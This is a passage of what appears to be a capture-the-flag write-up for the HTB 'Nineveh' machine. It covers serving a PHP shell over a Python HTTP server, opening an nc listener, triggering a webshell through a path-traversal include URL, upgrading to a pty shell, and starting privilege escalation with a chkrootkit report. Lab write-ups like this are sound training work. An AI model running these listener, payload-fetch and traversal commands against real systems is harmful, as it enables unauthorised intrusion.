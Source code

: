 And then we built up the http server. Using python to host a SimpleHTTPServer where my shell.txt is located, I can wget my shell file, and execute it with php by loading the database I created through the url.

```bash
python3 -m http.server 80
nc -vlp 1234
```

### Enumerate manage.php
On login, I’m redirected to `manage.php`, as shown above. In addition to the home button which just shows the under construction image, there’s a Notes button which just adds `?notes=files/ninevehNotes.txt` to the same PHP page and displays this text under the image:

First login the department, and Now I can access the webshell I left earlier at 
```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/admin.php
```

![[Nineveh-15.png]]

Excellent! we get the shell.

![[Nineveh-17.png]]

# Privilege Escalation
Let's upgrade the shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Nineveh-18.png]]

```bash
ls -la
```

![[Nineveh-19.png]]

drwxr-xr-x   2 amrois amrois  4096 Jul 16 11:44 report

we will find report folder

```bash
cd report
ls
cat report-22-07-16:11:50.txt
```

```txt
cat report-22-07-16:11:50.txt
ROOTDIR is `/'
Checking `amd'... not found
Checking `basename'... not infected
Checking `biff'... not found
Checking `chfn'... not infected
Checking `chsh'... not infected
Checking `cron'... not infected
Checking `crontab'... not infected
Checking `date'... not infected
Checking `du'... not infected
Checking `dirname'... not infected
Checking `echo'... not infected
Checking `egrep'... not infected
Checking `env'... not infected
Checking `find'... not infected
Checking `fingerd'... not found
```